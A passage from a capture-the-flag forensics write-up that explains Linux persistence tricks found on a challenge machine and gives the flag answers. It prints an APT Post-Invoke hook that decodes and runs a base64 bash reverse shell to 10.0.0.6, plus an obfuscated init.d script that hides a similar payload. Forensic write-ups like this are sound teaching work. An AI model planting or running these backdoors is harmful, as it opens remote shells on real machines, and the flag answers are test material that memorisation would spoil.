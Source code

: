 ```
## there lies a tome, bound not in leather but in the mysteries of the ether itself.
## The first chapter, "The Specter that Steers Your Spirit," reveals how one may
## summon and commune with the ghostly essences that drift through the veils of our world. 
## TDNha3tyY19sMGM0bF8wbl9iMDB0fQ==

# Execute the ArcaneGate script
"$ArcaneGate_PATH"

exit 0
```

### Flag 6

The blogs mentioned 'APT backdooring', a persistence method which exploits the APT package manager located in `/etc/apt/apt.conf.d/`. Within the directory, a file called `100holdon` had the 6th flag encoded in base64 `L3ak{4p7_In57411_5h311}`.

```
#TDNha3s0cDdfSW41NzQxMV81aDMxMX0=
DPKG::Post-Invoke {"file=$(echo 'YmFja2Rvb3Iuc2g='|base64 -d); echo 'IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo=' |base64 -d > /tmp/$file;chmod +x /tmp/$file;/tmp/$file";};
```

### Flag 7

The blogs also mentioned `/etc/init.d/` being a common location for persistence. In the directory, a script called `stillhere.sh` can be found which seems to be running some encrypted payload.

```
#!/bin/bash
### BEGIN INIT INFO
# Provides:          mysticportal
# Required-Start:    $network
# Required-Stop:     
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Starts mysticportal
### END INIT INFO

# Function to intreprt messege from the other side
decode_payload() {
    local ENCHANTED=$1
    local i=5
    local payload=""
    while [ $i -lt ${#ENCHANTED} ]; do
        payload="${payload}${ENCHANTED:$i:1}"
        i=$((i+6))
    done
    echo "$payload"
}

# ENCHANTED strings
ENCHANTED_PATH="MZolj/onNzUtGEMrLmZjjrgprmKwL/xcUclbzQqpeagLsHYcnBeuNkTWiLaduoxKGoLdmsRoNsrdDrjCksD.nFFiksEAYUQhOHsOK"
ENCHANTED_STRING="pfXya/kxqlGbKSPOdikkkUFneWGvk/ATUHObOIgGWaBKYZOsEXWVghZSygL nAIBf-UlMDeiMasOY hwnXE>pbkdm&CJjQK ZULrp/IwnjWdJkTMEePmysevNjfCB/JlMRvtNFdlKciUeGmpMJJxq/AEacj1ApwVV0vQaJr.qQhHU0hmDRa.ihgtX0tsiBd.kawOW6Ekxfl/XwTlz1bRFlJ2XiOHY3ujqyy4QrLBa sQwaF0EQcvD>LpYku&Fyakx1shVgW"

#sJddrLOwQzD3SwoKPavkMSxkXsAXn{CvzIEiaRxQCnkMjFZiSIjBAtkUwvbdPMZbW_udhQT2inbJn_VLZtRbJPTCm0gsJDF0yUiZi7paJvr5giIKI}DScGa

# Decode the ENCHANTED path and script
MYSTICPORTAL_PATH=$(decode_payload "$ENCHANTED_PATH")
MYSTICPORTAL_SCRIPT=$(decode_payload "$ENCHANTED_STRING")
```